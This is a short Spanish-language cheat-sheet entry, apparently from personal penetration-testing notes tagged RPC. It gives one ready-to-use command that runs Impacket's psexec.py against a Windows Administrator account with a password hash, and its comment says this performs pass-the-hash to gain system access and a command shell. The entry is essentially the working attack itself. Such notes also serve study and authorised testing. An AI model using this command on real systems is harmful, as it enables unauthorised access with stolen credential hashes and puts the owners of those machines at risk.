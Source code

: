 # RPC

Tags: #RPC #Comandos 

```bash
❯ psexec.py WORKGROUP/Administrator@<IP> -hashes <'HASH'>            # Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 
```